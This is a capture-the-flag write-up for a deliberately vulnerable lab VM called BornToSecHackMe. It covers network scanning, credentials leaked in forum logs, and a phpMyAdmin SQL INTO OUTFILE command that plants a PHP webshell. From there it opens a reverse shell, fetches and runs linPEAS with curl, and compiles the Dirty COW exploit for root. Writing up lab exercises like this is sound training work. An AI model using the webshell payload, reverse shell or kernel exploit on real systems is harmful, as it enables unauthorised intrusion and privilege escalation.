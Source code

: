 ## Foothold
We know it's a server but we don't have it's IP. Let's do a ping Sweep.

First, I have to know my network IP, so let's do an `ifconfig` on my own laptop
![[Images/Capture d’écran 2024-07-23 à 17.13.06.png]]

My ip is 192.168.1.27 so let's ping sweep the 192.168.1.* network with `nmap -sn '192.168.1.*'`
Among all the responses, we get
![[Images/Capture d’écran 2024-07-23 à 17.15.50.png]]

We now know the IP of the server, let's find its open ports with `rustscan -a 192.168.1.21`
![[Images/Capture d’écran 2024-07-23 à 17.17.15.png]]

We see the http and https ports are open. Let's see the website http version first and https second:
![[Images/Capture d’écran 2024-07-23 à 17.18.10.png]]
![[Images/Capture d’écran 2024-07-23 à 17.19.13.png]]
We can see all the directories in the site with `feroxbuster -w /opt/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u "https://192.168.1.21" -k`
![[Images/Capture d’écran 2024-07-23 à 17.21.41.png]]

/webmail and /phpmyadmin both ask for a password but /forum allows us to see it as a guest
![[Images/Capture d’écran 2024-07-23 à 17.22.20.png]]

Most of those threads are no use but the "Probleme login ?" one seems more interesting
![[Images/Capture d’écran 2024-07-23 à 17.23.01.png]]

Among all those lines, we find this one:
`Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2`

This seems like a mistake where the password was put in the username field. Let's try the password with every user (we can find the list by clicking on the link in the top right of the header)
![[Images/Capture d’écran 2024-07-23 à 17.26.10.png]]

We find that we can connect with the username lmezard and the password `!q\]Ej?*5K5cy*AJ`

On the profile page we can see that the email adress is laurie@borntosec.net
![[Images/Capture d’écran 2024-07-23 à 17.26.42.png]]

We can now try to connect to the webmail with this email adress and password. It works:
![[Images/Capture d’écran 2024-07-23 à 17.27.31.png]]

"Very interesting!!!" is just the description of a software called WinDev. DB Access however is more interesting:
![[Images/Capture d’écran 2024-07-23 à 17.29.22.png]]
> root/Fg-'kKXBj87E:aJ$

Let's try these credentials in /phpmyadmin. It works:
![[Images/Capture d’écran 2024-07-23 à 17.34.16.png]]

I now have access to userdata, including encrypted passwords. I can change the password of admin to the same than lmezard and connect to the forum with the same website
![[Images/Capture d’écran 2024-07-23 à 17.46.01.png]]

In phpmyadmin I can now use SQL to create a webshell with this command:
`select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE '/var/www/forum/templates_c/evil.php'`
It will create a page in `https://[IP]/forum/templates_c/evil.php` that will get the c argument and execute it. For instance, with `?c=echo hello` we get:
![[Images/Capture d’écran 2024-07-24 à 17.47.50.png]]

We can now use a reverse shell generator to create a reverse shell and gain access to the target
![[Images/Capture d’écran 2024-07-25 à 14.11.18.png]]

I now run `pwncat-cs -lp 14242`
to wait for the connection and I paste the reverse shell in the c argument of the site. I now have a terminal in the server.
![[Images/Capture d’écran 2024-07-25 à 14.12.40.png]]

## Dirty Cow
From there, I can use linPEAS to check for potential security exploits:
`cd /tmp`
`curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh`
`chmod +x linpeas.sh`
`./linpeas.sh -a > linpeas.log`
`less -r linpeas.log`
![[Images/Capture d’écran 2024-07-25 à 14.22.22.png]]

We see that it's highly probable that the kernel exploit called dirty cow is not patched. Let's try it. First we download it with the linked given by linpeas and we upload it to the server (pwncat allows to do it easily, otherwise you could curl it).
`gcc 40839.c -lpthread -lcrypt`
![[Images/Capture d’écran 2024-07-25 à 14.25.52.png]]

We can now `su -` with the password we've given
![[Images/Capture d’écran 2024-07-25 à 14.26.57.png]]
